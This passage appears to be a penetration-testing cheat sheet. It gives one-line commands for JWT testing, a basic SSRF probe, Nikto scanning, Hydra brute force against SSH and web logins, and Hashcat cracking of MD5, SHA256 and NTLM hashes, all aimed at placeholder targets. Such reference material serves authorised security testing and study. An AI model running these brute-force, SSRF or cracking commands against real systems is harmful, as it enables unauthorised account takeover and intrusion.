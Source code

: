 ### JWT Token Test with jwt-tool
Analyze and test JSON Web Tokens.
```bash
python3 jwt_tool.py [token] -T
```

### SSRF Basic Test
Test for Server-Side Request Forgery by making the server request an internal resource.
```bash
curl -s "http://target.com/page.php?url=http://localhost:22"
```

### Nikto Full Scan
Perform a comprehensive web server scan with Nikto.
```bash
nikto -h http://target.com -o nikto_results.txt
```

# Password Cracking

## Hydra

### SSH Brute Force
Brute-force SSH login credentials.
```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.x -t 4
```

### Web Form Brute Force
Brute-force web login form credentials.
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.x http-post-form "/login.php:username=^USER^&password=^PASS^:Login failed"
```

## Hashcat

### MD5 Hash
Crack MD5 hashes.
```bash
hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

### SHA256 Hash
Crack SHA256 hashes.
```bash
hashcat -m 1400 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

### NTLM Hash
Crack NTLM hashes.
```bash
hashcat -m 1000 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```
